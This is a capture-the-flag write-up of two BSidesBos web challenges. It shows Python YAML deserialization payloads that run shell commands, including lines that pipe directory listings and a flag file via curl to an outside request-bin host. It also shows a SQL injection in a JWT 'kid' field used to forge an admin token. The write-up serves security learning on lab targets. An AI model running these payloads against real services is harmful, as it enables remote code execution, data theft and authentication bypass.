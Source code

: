 ```yaml
---
layout: post
title: BSidesBos CTF writeup - Web
author: Lorentz Vedeler
date: 2020-09-26
tags:   
    - BSidesBos
category: writeup
---
```


I only solved two web challenges in this CTF: skid and Yet Another Micro-story Library. All web challenges had a pretty low number of solves.

## Yet Another Micro-story Library

We have to sign up and then log in to see a page with shared stories. When we do we are greeted with a blog listing. At the bottom there is a button to add our own story to the blog.

![Story time front page][story-time]
![Story time yaml form][story-time-form]

We can try to send some malformed yaml to the page:

``` yml
title: "Title of your story"
synopsis: "This is a brief summary of your story"
plot: 
---and they lived happily ever after.
    The End
keywords:
    - "example" 
    - "fiction" 
```

```
Bad Request

Error parsing yaml: while scanning a simple key
in "<unicode string>", line 4, column 1:
---and they lived happily ever a ...
^
could not find expected ':'
in "<unicode string>", line 6, column 1:
keywords:
^
``` 

Googling the errors didn't really give me any clues to which framework was being used, so I decided to just try a few simple payloads.

My first payload was:

```yml
!!python/object/apply:subprocess.Popen
  - ls
``` 
Giving the error below, at least now we can be pretty sure we're dealing with a python application.

```
Internal Server Error

'Popen' object is not subscriptable
```

I actually spent a lot of trying to get Popen to work, but found a different payload after a while.

``` yml
!!python/object/apply:os.system
  - ls
```
It succeeds, but the data does not appear anywhere. We can easily exfiltrate data though with a request bin though.

```yml
!!python/object/apply:os.system
  - ls | curl -X POST --data-binary @-  https://postb.in/1601157034473-5430747917853
```

The flag is in the web directory, so we can just issue a new command:
```yml

!!python/object/apply:os.system
  - cat flag.txt | curl -X POST --data-binary @-  https://postb.in/1601157034473-5430747917853
```


## skid

The challenge is a true script kiddie blog - teaching the fine art of sqlmap and armitage. We notice a cookie has been set:

```
skidtoken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6InNraWQifQ.eyJ1c2VybmFtZSI6InNraWQifQ.sacXoUrQCXpaylE4a4RGrCawHqBJJVGfOozOaPxQqOo
```
The JWT token decodes to the header 

``` json
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "skid"
}
```
and the body

``` json
{
  "username": "skid"
}
```

The kid field in the header represents a key identifier. The key identifier is used to let the server know which key has been used to sign the token. This is very useful for instance when the token issuing server rotates keys. This allows for a grace period where tokens that have issued right before the key rotation can still be validated by the server after the key rotation. The key identifier is also useful for simply having many different keys at the same time. 

Anyway, this key identifier can often represent a key in a jwks.json file, a regular file or a key in a database. We can look for a publicly available jwks-file. We try a few different files: 
* jwks.json
* /.well-known/jwks.json
* skid.json
* skid

and a few permutations of those, but no luck. Let's instead try to look for a sql injection. We can just modify our token with for instance the tool on jwt.io. Remember that since the kid field is used to look for the key used for the signature, we do not need to provide a valid signature now. Let's just change the kid to `skid'` and see if we can trigger an error. Change the cookie value in developer tools and refresh the page.

```
Bad Request

(sqlite3.OperationalError) unrecognized token: "'skid''"
[SQL: select * from key where name like 'skid'']
(Background on this error at: http://sqlalche.me/e/13/e3q8)
```

Nice, the key is stored in a sqlite db and we have a sql injection vulnerability! We can now use a union to choose our own key by effectivly changing the query to

``` sql
select * from key where name like 'a key that does not exist' 
union 
select <our key>
```

But first we need to detect how many fields there are in the table. A few tries gives us the correct number of columns. The final payload for our kid field is `asdbqweqwe' union select 'a','a','a`. As we have replaced all fields of the key with a's we can forge our token in jwt.io setting the secret to `a` and the username field in the body to admin.

![SQL injection in jwt kid field in jwt.io][forging-token]

[story-time]: /assets/imgs/yaml-blog.png "Story time front page"
[story-time-form]: /assets/imgs/yaml-form.png "Story time form"
[forging-token]: /assets/imgs/jwt-with-sqli.png "SQL injection in jwt kid field in jwt.io"